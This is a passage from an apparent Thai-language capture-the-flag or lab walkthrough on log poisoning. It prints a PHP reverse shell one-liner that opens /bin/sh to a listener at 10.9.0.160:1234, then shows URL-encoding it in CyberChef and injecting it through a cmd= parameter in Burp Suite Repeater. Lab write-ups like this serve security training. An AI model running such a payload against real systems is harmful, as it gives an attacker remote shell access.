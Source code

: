 ```bash
php -r '$sock=fsockopen("10.9.0.160",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

2. วางลงใน CyberChef
3. ทางซ้ายให้ค้นหาและลากสูตร “URL Encode” เข้ามาใช้
4. CyberChef จะแปลง payload ให้กลายเป็นรูปแบบ URL-safe

![chef](images/17.png)

5. คัดลอกผลลัพธ์ไปใช้ต่อในการยิงผ่าน Burp Suite

### 🧨 2.11 ฝัง Payload และรอรับ Reverse Shell
> หลังจากที่เราได้ Payload ที่ถูก URL-encode แล้ว ขั้นตอนต่อไปคือฝัง payload นั้นลงใน log และรอ reverse shell เชื่อมกลับมา

26. ดำเนินการใน Burp Suite:
- กลับไปที่ Burp Suite → แท็บ Repeater
- เพิ่มพารามิเตอร์ `cmd=<payload>` ต่อท้าย URL


![reverse](images/18.png)
